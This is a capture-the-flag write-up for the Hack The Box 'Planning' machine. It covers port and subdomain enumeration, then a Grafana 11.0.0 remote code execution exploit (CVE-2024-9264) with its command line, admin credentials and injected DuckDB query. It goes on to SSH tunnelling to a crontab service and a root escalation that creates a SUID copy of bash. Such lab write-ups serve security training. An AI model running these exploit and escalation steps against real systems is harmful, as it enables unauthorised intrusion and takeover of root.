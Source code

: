 ```yaml
---
title: Planning
published: 2025-09-04
description: 'HTB Planning is an easy Linux machine that highlights an RCE on Grafana, a container escape, and privilege escalation via a cronjobs service to obtain system privileges.'
image: ''
tags: ['Grafana','docker','Crontab','localhost']
category: 'HTB'
draft: false 
---
```


## Enumeration
> - Lets use nmap :
```bash
# Nmap 7.94SVN scan initiated Thu Sep  4 09:07:56 2025 as: nmap -sCV -A -T4 -o nmap.txt 10.10.11.68
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  4 09:08:18 2025 -- 1 IP address (1 host up) scanned in 21.91 seconds
```
![logo](./Planning-images/80.png)

> - Now i can use brute force subdomain with `gobuster vhost` i found a new subdomain:
```bash
gobuster vhost -u http://planning.htb -w /usr/share/SecLists/Discovery/DNS/combined_subdomains.txt --append-domain -t 50                            ✔   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/SecLists/Discovery/DNS/combined_subdomains.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: grafana.planning.htb Status: 302 [Size: 29] [--> /login]
```

![Grafana](./Planning-images/grafana.png)

## Exploitation 

> - i now i use `whatweb` for show more information about my link .
> - i found `Grafana 11.0.0`.
> - So i can search for CVE or Exploit about this Grafana Version.
> - After more searching i found this [CVE-2024-9264](https://github.com/nollium/CVE-2024-9264?tab=readme-ov-file)

> - Just run this command :
```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c whoami http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: whoami
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('whoami >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
root
```
> - its Working , but i have 1 Prblm i wont to connect in this server , so after more another searching i found other [CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit) for use reverse shell .
> - Just type thsi command & open a listener :

![reverse shell](./Planning-images/revrshell.png)

- Great!!!
- But this machine just for `Grafana` not o user owner 
- i run tool `linpeas` for show how i can open as privilege but i found something hhhhh

![linpeas](./Planning-images/linpeas.png)

## SSH

> - For open ssh as user `enzo` , i found user flag but now i wont to be a ROOT , how i can do that !!!!
> - after more searching i found thsi path `/opt/crontabs/crontab.db` , thsi file has a Password of zip File
> - and now i type `netstat tupln` i found port `8000` is open now i can do this
> - i login with user enzo as localhost like this cmd : `ssh enzo@grafana.planning.htb -L 8000:127.0.0.1:8000`
> - Now let check `localhost:8000` in browser
> - I type my credentials user & password , bytheway password is the same password Zip File

![crontab](./Planning-images/crontb.png)

## Privilege Escalation

- Now for Privsec i wont to create new crontab and put this command : `cp /bin/bash /tmp/bash && chmod u+s /tmp/bash`
- Afetr that click run Now & Go in ssh `/tmp/` you can show new file name is bash 
- Finaly just type `/tmp/bash -p` for reboot shell as File bash in tmp folder

```bash
enzo@planning:~$ cd /tmp
enzo@planning:/tmp$ ls

4KhnrhUdWCfowQmT.stderr                                                         systemd-private-9483ebeaebd64fab82216ec7e1206997-systemd-resolved.service-XFidJF
4KhnrhUdWCfowQmT.stdout                                                         systemd-private-9483ebeaebd64fab82216ec7e1206997-systemd-timesyncd.service-9iAmlh
bash                                                                            systemd-private-9483ebeaebd64fab82216ec7e1206997-upower.service-bDIWIx
linpeas.sh                                                                      tmux-1000
systemd-private-9483ebeaebd64fab82216ec7e1206997-fwupd.service-UDicPX           vmware-root_827-4256676229
systemd-private-9483ebeaebd64fab82216ec7e1206997-ModemManager.service-2rmc8r    YvZsUUfEXayH6lLj.stderr
systemd-private-9483ebeaebd64fab82216ec7e1206997-polkit.service-xCC45i          YvZsUUfEXayH6lLj.stdout
systemd-private-9483ebeaebd64fab82216ec7e1206997-systemd-logind.service-qcdKWG

enzo@planning:/tmp$ /tmp/bash -p
bash-5.2# whoami
root

```

